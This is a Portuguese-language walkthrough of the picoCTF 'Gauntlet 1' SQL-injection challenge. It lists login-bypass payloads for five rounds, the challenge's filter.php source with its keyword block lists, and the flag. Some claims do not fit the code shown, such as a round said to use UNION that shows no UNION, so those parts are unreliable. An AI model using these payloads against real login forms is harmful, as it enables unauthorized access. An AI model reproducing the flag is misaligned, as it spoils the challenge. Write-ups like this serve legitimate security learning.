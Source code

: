 # Gauntlet 1 
###### Resolvido por @Menegaldo e @BrunoCuba
> Este é um CTF sobre [SQL Injection]  

## Sobre o Desafio  
Can you beat the filters? 

**Objetivo:** Log in as admin.  

## 🔗 Links do Desafio
- [Gauntlet_1](https://play.picoctf.org/practice/challenge/88)
- [Acesse o desafio](http://jupiter.challenges.picoctf.org:19593/)  
- [Página de filtragem](http://jupiter.challenges.picoctf.org:19593/filter.php)  

Boa sorte! 🔥  


## Solução

Ao acessar o site, somos apresentados a uma tela de login onde precisamos fornecer um nome de usuário e senha. O principal desafio aqui é descobrir como "burlar" a filtragem SQL para conseguir logar como o usuário "admin".

![image](https://github.com/user-attachments/assets/bbfac422-eb64-4cb1-8829-41d31270dd6b)

#### Análise Inicial:

Na página de login, ao tentar submeter credenciais genéricas, observamos que o sistema faz uma consulta SQL com base nas entradas fornecidas. O que nos chamou atenção foi que a consulta estava vulnerável a um SQL Injection. Aqui, começamos a explorar como explorar esse tipo de falha.

![image](https://github.com/user-attachments/assets/75983be8-7be6-46fd-a23d-bb24e4897f6c)

**Round 1:**
No primeiro round, a consulta SQL aceita o uso de comentários para ignorar a parte da senha. Isso foi feito utilizando o símbolo --, que serve para comentar tudo após ele na consulta.

**Entrada:**
```
Usuário: admin' --
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username = 'admin' --' AND password = 'qualquercoisa'
```

![image](https://github.com/user-attachments/assets/45c1fdf4-c271-4d91-a22c-c1a304a4db38)

Neste caso, a parte da senha foi ignorada devido ao comentário, permitindo o login com o usuário "admin".

**Round 2:**
No segundo round, foi possível observar que mais palavras-chave estavam permitidas na consulta SQL, como /*, outro tipo de comentário. A ideia era testar se podíamos usar esses novos filtros para burlar a autenticação.

**Entrada:**
```
Usuário: admin' /*
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='admin' /*' AND password='1'
```

![image](https://github.com/user-attachments/assets/30a06c80-9edb-4c60-b3c2-ac64ffcfdb90)

O filtro continuou permitindo que a parte da senha fosse ignorada e o login fosse feito com sucesso.

**Round 3:**
No terceiro round, a consulta aceitou o uso de ;, que finaliza uma consulta SQL e pode ser usada para iniciar uma nova execução. Testamos esse comportamento para tentar criar uma segunda consulta, mas isso não teve efeito imediato no resultado da aplicação.

**Entrada:**
```
Usuário: admin';
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='admin';' AND password='123'
```

![image](https://github.com/user-attachments/assets/93a06447-6252-4480-97ad-0c20a285179d)

O uso do ; separou as duas partes da consulta, mas a aplicação não alterou a execução.

**Round 4:**
Nesse round, testamos um método diferente de injeção, tentando usar a concatenação para formar o nome de usuário "admin". Isso foi feito com a utilização de ||, que permite a junção de strings em consultas SQL.

**Entrada:**
```
Usuário: ad'||'min';
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
```

![image](https://github.com/user-attachments/assets/a788338b-c123-4606-ab42-d657a991e581)

A aplicação aceitou a injeção e conseguimos passar para o próximo round.

**Round 5:**
Finalmente, no último round, conseguimos usar o comando union para injetar nossa própria consulta SQL e visualizar a flag.

**Entrada:**
```
Usuário: ad'||'min';
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='ad'||'min';' AND password='qualquercoisa'
```

![image](https://github.com/user-attachments/assets/23b8a6ae-6c2e-461f-89ae-145a10999379)

Com isso, conseguimos obter a instrução para acessar o filter.php.

```
<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
?>
```

> Assim, obtemos a flag `picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}`  
